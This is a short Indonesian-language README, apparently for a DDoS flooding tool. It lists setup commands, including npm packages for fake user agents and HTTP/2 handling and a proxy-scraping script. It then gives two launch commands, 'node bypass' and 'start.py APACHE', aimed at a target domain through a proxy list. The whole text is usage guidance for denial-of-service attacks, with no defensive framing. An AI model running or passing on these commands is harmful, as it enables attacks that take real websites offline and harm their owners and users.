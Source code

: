 INSTALL REQIURETMENT

Ketik apt update <br>
Ketik apt install npm <br>
python3 scrape.py (muncul pilahn Y/N, ketik N) <br>
npm i sockopt <br>
npm i hpack <br>
npm i fake-useragent <br>
npm i request <br>
npm i gradient-string <br>
npm i cheerio <br>
npm i randomstring <br>
npm i user-agents <br>
npm i axios <br>



node bypass domain target 80000 64 10 proxy.txt


python3 start.py APACHE domain target 4 894 proxy.txt 61 1693

Program akan berjalan apabila menggunakan client VPS atau Linux
